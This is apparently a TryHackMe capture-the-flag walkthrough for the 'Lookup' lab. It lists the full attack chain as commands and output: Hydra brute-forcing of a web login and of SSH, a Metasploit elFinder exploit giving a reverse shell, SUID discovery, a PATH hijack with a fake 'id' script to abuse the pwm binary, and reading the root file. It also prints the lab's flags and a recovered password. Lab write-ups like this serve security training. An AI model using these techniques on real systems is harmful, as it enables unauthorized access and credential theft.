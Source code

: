 # 🔥 TryHackMe Walkthrough - Lookup

## 🚀 Enumeration

### 📂 1. Directory Bruteforcing (Gobuster)
```sh
../login.php
```

### 👥 2. User Enumeration (Custom Script)
```sh
python3 lookup-enumeration.py
```

## 🔑 Credential Attacks

### 🔓 3. Password Bruteforcing (Hydra)
```sh
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-form-post "/login.php:username=^USER^&password=^PASS^:Wrong" -v
```
```sh
hydra -l <username> -P <password-list> <target-IP> -t <threads> <protocol>
```
#### 📌 Parameters Explained:
- `-l <username>` → Specify a single username.
- `-L <username-list>` → Use a list of usernames.
- `-p <password>` → Try a single password.
- `-P <password-list>` → Use a wordlist of passwords.
- `<target-IP>` → IP or domain of the target.
- `-t <threads>` → Number of threads (default is 16).
- `<protocol>` → Service to attack (e.g., ssh, ftp, http, etc.).

## 🌐 Subdomain Enumeration

### 📌 4. Add the new subdomain
```sh
echo "<target-IP> files.lookup.thm" >> /etc/hosts
```

## 🐚 Reverse Shell

### 🛠 5. Exploit with Metasploit
```sh
search elfinder 
set RHOST files.lookup.thm
set LHOST tun0
run
shell
python3 -c 'import pty; pty.spawn("/bin/bash")'  # Upgrade to interactive shell
```

## 🔍 Privilege Escalation

### 🔎 6. Finding Interesting Files
```sh
ls -la /home
```
#### 📌 Observations:
- Found `.passwords` and `user.txt`, but need root privilege to access them.

### 🔥 7. Finding SUID Binaries
```sh
find / -perm /4000 2>/dev/null
```
#### 📌 Breakdown:
- `find /` → Search from root.
- `-perm /4000` → Find SUID binaries.
- `2>/dev/null` → Suppress permission errors.

### 🛠 8. Checking `/usr/sbin/pwm`
```sh
ls -la /usr/sbin/pwm
```
#### 📌 Output:
```sh
-rwsr-sr-x 1 root root 17176 Jan 11  2024 /usr/sbin/pwm
```
✅ It has root privileges!

### 🏆 9. Exploiting `pwm`
```sh
www-data@lookup:/tmp$ pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```
```sh
id
```
#### 📌 Output:
```sh
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 🔄 10. Manipulating `id` Command
```sh
touch /tmp/id  # Create an empty file
```
```sh
echo '#!/bin/bash' > /tmp/id  # Add shebang
```
```sh
echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> /tmp/id  # Fake ID
```
```sh
chmod +x /tmp/id  # Make it executable
```
```sh
export PATH=/tmp:$PATH  # Prioritize our fake 'id'
```
#### ✅ Now when we type:
```sh
id
```
#### 📌 Output:
```sh
uid=1000(think) gid=1000(think) groups=1000(think)
```

### 🔑 11. Running `pwm` Again
```sh
pwm
```
✅ We now have `.passwords` file!

## 🔐 SSH Bruteforcing

### 💥 12. Using Hydra for SSH Login
```sh
hydra -l think -P passwords.txt ssh://lookup.thm
```
#### 📌 Output:
```sh
[22][ssh] host: lookup.thm   login: think   password: josemario.AKA(think)
```

## 🎯 Capture the Flags

### 🏆 13. User Flag
```sh
cat user.txt
```
#### 📌 Output:
```sh
38375fb4dd8baa2b2039ac03d92b820e
```

### 🏅 14. Root Flag
```sh
look '' /root/root.txt
```
🔑 Password: `josemario.AKA(think)`

#### 📌 Output:
```sh
5a285a9f257e45c68bb6c9f9f57d18e8
```

🎉 **Congratulations! You have completed the room!** 🎉

---
📌 **Created by c1ph3r1337** 🕶️🔥

